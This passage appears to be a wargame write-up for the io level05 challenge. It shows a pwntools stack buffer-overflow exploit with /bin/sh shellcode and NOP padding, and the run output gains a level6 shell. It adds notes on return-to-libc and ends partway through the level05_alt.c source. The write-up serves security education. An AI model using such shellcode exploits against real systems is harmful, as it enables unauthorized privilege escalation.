 We can find out where is `buf` by calculating 0xbffffbec - 4 - 0x88.
0xbffffbec is the location on the stack that contains the return address obtained earlier on.
```sh
[------------------------------------stack-------------------------------------]
0000| 0xbffffbec ("BCDE")
0004| 0xbffffbf0 --> 0x0
```

### exploit.py using pwntools

```python
from pwn import *

shellcode = "6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80".decode("hex")
retaddr = p32(0xbffffb60)   # auto pack integer into little endian
payload = shellcode + (140-len(shellcode))*'\x90' + retaddr

p = process(["/levels/level05", payload])
p.interactive()
```
The pwntool script.

```sh
level5@io:/tmp/t$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process '/levels/level05': pid 32243
[*] Switching to interactive mode
�Q��1�j\x0bX̀\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
$ id
uid=1005(level5) gid=1005(level5) euid=1006(level6) groups=1005(level5),1029(nosu)1�Qj\x04Y\x814$rijhh///sh/bin\x89�h
```

Another method is to do return to libc. 
Return to libc can bypass NX protection because the instructions are not found on the stack but from libraries function.
The values on the stacks are a list of addresses and arguments which are just values.
This is a difficult topic - return oriented programming.

## level05_alt.c
```C
//don't get trapped, there's no need
//level by bla
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define LOADERSIZE (232 + 16)
void* getASLRregion(int size, int flags);
void switchcontext(char* newstack, char* code);

int main(int argc, char* argv[], char* env[])
{
	char *newcode, *newstack;

	//allocate memory at random addresses
	newstack = getASLRregion(64 * 1024, PROT_READ | PROT_WRITE );
	newcode =  getASLRregion(64 * 1024, PROT_READ | PROT_WRITE | PROT_EXEC);

	if(argc > 1)
```